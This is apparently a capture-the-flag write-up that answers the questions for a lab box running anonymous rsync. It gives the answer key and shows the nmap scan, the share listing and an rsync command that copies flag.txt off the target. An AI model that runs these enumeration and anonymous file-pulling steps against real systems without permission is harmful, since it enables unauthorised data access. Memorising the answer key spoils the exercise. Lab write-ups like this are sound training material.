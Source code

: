 ## 1. Questions
- Task 1
	- What is the default port for rsync?
		- `873`
- Task 2
	- How many TCP ports are open on the remote host?
		- `1`
- Task 3
	- What is the protocol version used by rsync on the remote machine?
		- `31`
- Task 4
	- What is the most common command name on Linux to interact with rsync?
		- `rsync`
- Task 5
	- What credentials do you have to pass to rsync in order to use anonymous authentication? anonymous:anonymous, anonymous, None, rsync:rsync
		- `None`
- Task 6
	- What is the option to only list shares and files on rsync? (No need to include the leading -- characters)
		- `list-only`
- Submit Flag
	- Submit root flag
## 2. Tools Used
- Linux
- CLI
- nmap
- rsync
- cat
## 3. Approach
### nmap scan
- Useful resource
	- https://www.stationx.net/nmap-cheat-sheet/
```bash
sudo nmap -sSVC -Pn -n --disable-arp-ping -T4 10.129.150.109
```
- Flags
	- `-sSVC` - SYN, service, and default sript scan.
	- `-Pn` - Exclude ICMP scanning.
	- `-n` - Exclude name resolution.
	- `--disable-arp-ping` - Exclude `arp` scanning.
	- `-T4` - Use speed template `aggressive`.
- Result
```
<snip>
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
<snip>
```
### Test rsync connection (without credentials)
- Useful resources
	- https://hackviser.com/tactics/pentesting/services/rsync#enumerate-shared-folders
```bash
rsync 10.129.150.109::
```
- Result
```
public         	Anonymous Share
```
### Explore the files and directories of the module
- Useful resource
	- https://hackviser.com/tactics/pentesting/services/rsync#enumerate-shared-folders
```bash
rsync -av --list-only rsync://10.129.150.109/public
```
- Result
```bash
<snip>
drwxr-xr-x          4,096 2022/10/24 17:02:23 .
-rw-r--r--             33 2022/10/24 16:32:03 flag.txt
<snip>
```
### Exfiltrate flag.txt
- Useful resource
	- https://hackviser.com/tactics/pentesting/services/rsync#data-exfiltration
```bash
rsync -avz rsync://10.129.150.109/public/flag.txt ./flag.txt
```
### Retrieve the flag
```bash
cat ./flag.txt
```
